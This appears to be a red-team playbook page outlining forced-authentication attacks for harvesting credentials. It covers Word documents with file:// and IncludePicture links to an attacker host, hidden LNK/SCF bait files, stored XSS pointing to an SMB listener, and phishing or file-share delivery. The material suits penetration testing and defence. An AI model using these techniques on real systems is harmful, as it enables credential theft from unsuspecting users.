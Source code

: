 
# Forced Authentication ([`Forced Authentication` TTP](TTP/T1187_Forced_Authentication/T1187.md))
## References

## Overview

Forced authentication can be performed by relying on either social engineering or abuse of vulnerabilities that cause a responding authentication.

The attacks originating from vulnerability abuse are great when they work, as no waiting is necessary and the response is often a machine account. When the vulnerabilities are patched, social engineering is very helpful. Social engineering relies on users to interact with a file (usually just by viewing the file in file explorer). This vector can be achieved commonly through placing the files in file shares or in phishing emails.

Broken out as an outline structure:

* Coerce/Force Authentication
	* Abuse a vulnerability
	* Web Exploitation ([Web App Attack Guide](Testaments_and_Books/Redvelations/Web/000_Web_App_Attack_Guide.md))
		* Stored XSS linking to your SMB Server (e.g., Responder)
	* File Delivery
		* <details><summary>1. Create a malicious file that forces authentication (Click to expand)</summary><p>
			* Word doc with link to attack box
				* Example: `file:////<attacker_hostname_or_IP>/file-not-actually-hosted.txt`
			* Malicious file with icon directed at the attacker
				* Include the additional `.NET` attribute to hide the file from `explorer.exe`
					
						File.SetAttributes(path, FileAttributes.Hidden);
				* Name file starting with a special character if you want alphabetical sort to show the file first
				* Some files may auto-downloaded in browser. Testing needed.
					* `.LNK`
					* `.SCF`
				* Other files
					* `.URL`
					* `.RTF`
					* `.XML`
				* Save word doc as XML file. Update the `href` field to point to attacker address.
			* "IncludePicture"
				* Create a Word document. Add the field `IncludePicture`, with the target URL to the attacker IP `\\10.0.0.5\bad.jpg`
			* PNG files
		* <details><summary>2. Deliver Malicious file (Click to expand)</summary><p>
			* Open File Share
			* Email (Phishing)
	* Capitalize on mistakes
		* Mistyped URL
		* Access invalid shares
